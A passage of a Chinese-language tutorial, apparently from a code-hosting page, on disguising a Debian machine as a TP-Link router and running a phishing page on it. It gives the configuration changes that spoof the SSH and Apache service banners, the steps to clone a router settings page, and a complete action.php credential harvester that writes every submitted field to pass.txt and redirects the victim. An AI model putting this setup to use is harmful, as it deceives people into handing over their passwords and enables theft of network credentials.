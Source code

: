 **改变端口 22 和 80 上的服务名称**

对于端口 22，你应该在 ssh 上隐藏 debian 版本，这样路由器和 debian 发行版之间的关联就不会看起来可疑。为此，在 **/etc/ssh/sshd_config** 中添加以下行

```
DebianBanner no
```

接下来，更改 apache2 服务名。为什么我们要改变它。当您在路由器上执行扫描时，通常不会看到 apache 服务在端口 80 上运行。所以我把它改成了**TP-LINK wr 841n WAP http config**。

```
sudo apt install apache2
sudo apt install -y php
sudo apt install -y php-{common,mysql,xml,xmlrpc,curl,gd,imagick,cli,dev,imap,mbstring,opcache,soap,zip,intl}
```

```
sudo systemctl restart apache2
```

```
sudo apt install libapache2-mod-security2
sudo a2enmod security2
```

在文件**/etc/Apache 2/conf-enabled/security . conf**中添加/更改以下内容:

```
ServerTokens Full
SecServerSignature "TP-LINK WR841N WAP http config"
ServiceSignature Off
```

**创建钓鱼页面—路由器设置页面**

使用 WebScrpBook 插件捕获页面源代码，并将其放入 **/var/www/html** 。

在那之后修改了**index.html**的文件。您应该通过在表单部件中添加/更改 action 来修改它(action="action.php ")。

创建**action.php**文件并保存在 **/var/www/html** 中。

```
<?php
$location='/error';
header("Location: " . "http://" . $_SERVER['HTTP_HOST'] . $location);
$handle = fopen("pass.txt", "a");
foreach($_POST as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n\n\n\n");
fclose($handle);
exit;
?>
```
